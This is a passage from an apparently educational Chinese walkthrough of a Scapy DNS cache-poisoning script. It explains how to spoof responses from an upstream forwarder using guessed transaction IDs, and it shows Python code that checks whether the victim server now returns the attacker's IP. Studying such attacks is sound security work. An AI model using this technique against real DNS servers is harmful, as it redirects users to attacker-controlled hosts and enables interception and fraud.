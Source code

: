 - 循环发送100个伪造响应包

  ：

  - **Transaction ID**：使用随机生成的 `tran_id`，尝试猜测目标DNS服务器查询的 `Transaction ID`。

  - **IP层**：源地址为 `forwarder_dns`（伪装成上游DNS），目标地址为目标DNS服务器 `target_dns_ip`。

  - **UDP层**：源端口为 `53`（模拟DNS响应），目标端口为 `target_dns_port`。

  - DNS层

    ：

    - `id=tran_id`：Transaction ID。
    - `qr=1`：表示这是一个DNS响应包。
    - `aa=1`：表示是权威响应。
    - **an**（Answer Section）：设置子域名指向攻击者的IP地址。
    - **ns**（Authority Section）：提供权威DNS服务器地址。
    - **ar**（Additional Section）：提供权威服务器的IP地址。

- **send**：发送伪造的响应包。

------

### **4. 查询结果验证**

```python
    IPpkt = IP(dst=target_dns_ip)
    UDPpkt = UDP(sport=random.randint(1025, 65535), dport=target_dns_port)
    DNSpkt = DNS(rd=1, qd=DNSQR(qname=cur_domain))
    query_pkt = IPpkt / UDPpkt / DNSpkt
    z = sr1(query_pkt, timeout=2, retry=0, verbose=0)

    try:
        if z and z[DNS].an and z[DNS].an.rdata == attacker_ip:
            print("Poisoned the victim DNS server successfully.")
            break
```

- 再次发送查询包，验证目标DNS服务器是否已被成功毒化：
  - **sr1**：发送DNS查询包并等待响应。
  - **z[DNS].an.rdata == attacker_ip**：检查响应包的Answer Section是否返回了攻击者的IP地址。
  - 如果成功，打印**"Poisoned the victim DNS server successfully."**。

------

### **5. 错误处理**

```python
    except Exception as e:
        print("Poisoning failed")
```

- 如果攻击失败（例如DNS响应包无法匹配攻击者IP地址），打印**"Poisoning failed"**。

------
